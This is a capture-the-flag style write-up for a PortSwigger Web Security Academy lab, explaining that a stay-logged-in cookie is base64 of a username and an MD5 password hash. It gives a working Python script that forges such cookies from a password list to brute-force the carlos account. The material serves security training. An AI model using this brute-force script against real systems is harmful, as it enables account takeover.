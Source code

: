 This script will solve the lab...eventually.

## Lab 9: Stay-Logged-In Cookie

This lab has a vulnerable stay logged in cookie. For this, I have to do brute forcing of the password for `carlos`.

When I logged in as `wiener` and chose to stay logged in, there was a cookie passed:

![](../../.gitbook/assets/portswigger-auth-writeup-image-17.png)

A quick check on CrackStation reveals that this hash was an MD5 hash for `peter`.

I can quickly create a brute force script for this, since I can attempt to access `carlos` account using this cookie.

```python
import requests
import re
import sys
import hashlib
import base64 
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aab005b04c539908141ace600e000b0'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

passwords = open('pass.txt', 'rb')
for i in passwords:
	hashed_password = hashlib.md5(i.strip()).hexdigest()
	plaintext = 'carlos:' + str(hashed_password)
	plaintext = plaintext.encode("ascii")
	base64_bytes = base64.b64encode(plaintext) 
	carlos_cookie = base64_bytes.decode("ascii")
	cookies = {
		'stay-logged-in':carlos_cookie
	}
	r = s.get(url + '/my-account?id=carlos', cookies=cookies, proxies=proxies, verify=False)
	if 'Your username is:' in r.text:
		print(f"Password is {i}")
		sys.exit()
```
